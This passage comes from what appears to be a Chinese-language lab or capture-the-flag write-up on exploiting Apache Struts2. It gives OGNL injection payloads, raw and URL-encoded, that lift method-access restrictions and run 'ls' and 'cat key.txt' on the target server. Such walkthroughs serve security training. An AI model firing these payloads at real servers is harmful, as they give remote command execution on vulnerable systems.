 当然这里不能直接输入这样的命令，需要对其进行url编码。

```
/%24%7B%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%2C%23m%3D%23_memberAccess.getClass%28%29.getDeclaredField%28%27allowStaticMethodAccess%27%29%2C%23m.setAccessible%28true%29%2C%23m.set%28%23_memberAccess%2Ctrue%29%2C%23q%3D@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27ls%27%29.getInputStream%28%29%29%2C%23q%7D.action
```

![image-20230413145246665](assets/wakUeLfYQSrKlmj.png)

#### 3.3.6.5. 获取key值

由于使用工具很容易就获取到了key值，这里我们使用exp进行获取。

```
/${#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('cat key.txt').getInputStream()),#q}.action
```

url编号后的exp

```
/%24%7B%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%2C%23m%3D%23_memberAccess.getClass%28%29.getDeclaredField%28%27allowStaticMethodAccess%27%29%2C%23m.setAccessible%28true%29%2C%23m.set%28%23_memberAccess%2Ctrue%29%2C%23q%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%27cat%20key.txt%27%29.getInputStream%28%29%29%2C%23q%7D.action
```
